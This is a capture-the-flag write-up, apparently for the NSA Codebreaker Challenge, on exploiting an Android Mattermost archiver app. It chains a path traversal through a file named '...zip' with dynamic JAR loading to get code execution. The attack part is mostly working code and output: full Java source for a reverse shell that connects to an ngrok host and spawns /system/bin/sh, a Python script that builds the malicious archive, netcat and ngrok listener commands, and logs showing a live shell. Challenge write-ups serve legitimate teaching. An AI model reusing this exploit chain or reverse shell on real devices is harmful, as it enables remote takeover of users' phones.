






# Task 7 - Finale - (Vulnerability Research, Exploitation)

> Now that we have access to the hidden channel the adversary is using, our military counterparts want to act quickly to destroy the adversary's capacity to continue with their attack against our military networks.

> Analysts have been quickly scrutinizing the data from the privileged channel. They conclude that the adversary has downloaded a custom app to archive all messages sent in the channel locally to their phone. They have also surmised the adversary is running a recent version of Android on a Google Pixel phone. This is the opportunity we have been waiting for! If we can devise a way to exploit on to the adversary's device we will have the advantage.

> Another team has retrieved the custom application APK file for you to analyze.

---

## Downloads

- **Custom App:** `mmarchiver.apk`
- **Licenses:** `licenses.txt`

---

## Task

- **Submit a file to be posted to the Mattermost Channel that will be processed by the app and exploits the device.**

---

## Writeup

This task required reverse engineering an Android application to discover vulnerabilities and chain them into a remote code execution exploit.

### Initial Analysis

I began by decompiling the APK using jadx-gui. The application is heavily obfuscated, and really ugly in JADX. Here we see the FileDownloadWorker for the Mattermost message archiver app. It automatically downloads files from channels and "archives them" - it does something with them, that's what we need to exploit.

<p align="center">

</p>

Examining the source code further revealed a custom archive format system with dynamic class loading for different file types (zip, 7z, tar, etc.). The format handlers are loaded from `/cache/zippier/formats/` and implement the `ZipFormat` interface:
```java
public interface ZipFormat {
    String getExtension();
    void uncompress(File file, File file2, ZipFile zipFile);
}
```

### Vulnerability Discovery

Analyzing the file extraction code, I identified a critical path traversal vulnerability. When processing zip files, the app creates an extraction directory using the filename:
```java
File extractDir = new File(cacheDir, getBasename(zipFile.getName()));
```

For a file named `...zip`, the basename is `..`, resulting in an extraction path of `/cache/zippier/extract/..`, which resolves to `/cache/zippier/`. This means files within the zip are extracted to the parent directory.

<p align="center">

</p>

The extraction process uses `FileOutputStream` without checking if files already exist, allowing arbitrary file overwrites. Additionally, I discovered that when the app encounters a `.7z` file, it attempts to load a format handler from `/cache/zippier/formats/net.axolotl.zippier.ZipFormat_7z.jar`.

### Exploitation Chain

The vulnerability chain:

1. **Path Traversal**: Name the zip file `...zip` to extract to `/cache/zippier/` instead of a subdirectory
2. **File Overwrite**: Place a malicious JAR at `formats/net.axolotl.zippier.ZipFormat_7z.jar` within the zip
3. **Dynamic Class Loading**: Include a trigger file with `.7z` extension
4. **Code Execution**: The static initializer in the malicious class executes when loaded

<p align="center">

</p>

### Creating the Malicious Payload

I created a properly implemented `ZipFormat_7z` class that executes a reverse shell in its static initializer:
```java
package net.axolotl.zippier;

import java.io.*;
import java.net.Socket;

public class ZipFormat_7z implements ZipFormat {
    
    static {
        try {
            reverseShell();
        } catch (Exception e) {}
    }
    
    public String getExtension() {
        return "7z";
    }
    
    public void uncompress(File file, File file2, ZipFile zipFile) {
        // Required to implement interface
    }
    
    private static void reverseShell() {
        try {
            Socket socket = new Socket("8.tcp.ngrok.io", 19757);
            Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-i"});
            
            InputStream processIn = process.getInputStream();
            OutputStream processOut = process.getOutputStream();
            InputStream socketIn = socket.getInputStream();
            OutputStream socketOut = socket.getOutputStream();
            
            new Thread(() -> {
                try {
                    byte[] buf = new byte[8192];
                    int len;
                    while ((len = socketIn.read(buf)) > 0) {
                        processOut.write(buf, 0, len);
                        processOut.flush();
                    }
                } catch (Exception e) {}
            }).start();
            
            new Thread(() -> {
                try {
                    byte[] buf = new byte[8192];
                    int len;
                    while ((len = processIn.read(buf)) > 0) {
                        socketOut.write(buf, 0, len);
                        socketOut.flush();
                    }
                } catch (Exception e) {}
            }).start();
        } catch (Exception e) {}
    }
}
```

I compiled the Java code to `.class` files and used Android SDK's `d8` tool to convert to DEX format:
```bash
javac ZipFormat_7z.java ZipFile.java
mkdir -p net/axolotl/zippier
mv ZipFormat_7z.class net/axolotl/zippier/
d8 net/axolotl/zippier/ZipFormat_7z.class
```

<p align="center">

</p>

### Network Configuration

Since the target device would be on the NSA's network, I used ngrok to create a publicly accessible TCP tunnel:
```bash
ngrok tcp 4444
```

This provided `tcp://8.tcp.ngrok.io:19757` which forwards to my local netcat listener:
```powershell
nc -lvnp 4444
```

<p align="center">

</p>

### Building the Exploit Archive

I created the final exploit structure:
```python
#!/usr/bin/env python3
import zipfile

# Package DEX into JAR format
with zipfile.ZipFile('malicious.jar', 'w') as jar:
    jar.write('classes.dex', 'classes.dex')

# Create exploit zip named '...zip'
with zipfile.ZipFile('temp.zip', 'w') as z:
    with open('malicious.jar', 'rb') as f:
        z.writestr('formats/net.axolotl.zippier.ZipFormat_7z.jar', f.read())
    z.writestr('trigger.7z', b'\x37\x7A\xBC\xAF\x27\x1C')

import os
os.rename('temp.zip', '...zip')
```

The resulting `...zip` contains:
- `formats/net.axolotl.zippier.ZipFormat_7z.jar` - Malicious format handler
- `trigger.7z` - Triggers the format loading mechanism

### Local Testing

Before submission, I tested the exploit locally using an Android emulator. The logcat output confirmed successful exploitation:
```
D FileDownloadWorker: file written to /data/user/0/com.badguy.mmarchiver/cache/download/...zip
D a: processing zip archive /data/user/0/com.badguy.mmarchiver/cache/download/...zip
D a: processing zip entry formats/net.axolotl.zippier.ZipFormat_7z.jar
D a: processing zip entry trigger.7z
D d: attempting format load from /data/user/0/com.badguy.mmarchiver/cache/zippier/formats/net.axolotl.zippier.ZipFormat_7z.jar
```

<p align="center">

</p>

The reverse shell connected successfully:
```
PS C:\Users\Bodwell\Downloads> .\nc64.exe -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 57738
whoami
u0_a217
id
uid=10217(u0_a217) gid=10217(u0_a217) groups=10217(u0_a217)
pwd
/data/user/0/com.badguy.mmarchiver
```

<p align="center">

</p>

### Submission

With the exploit verified locally, I submitted `...zip` to the NSA Codebreaker platform. The ngrok tunnel showed the incoming connection from the NSA's testing environment, and the reverse shell was successfully established.

<p align="center">

</p>

**Success!** The exploitation chain successfully achieved remote code execution on the adversary's device, completing the final task of the NSA Codebreaker Challenge.
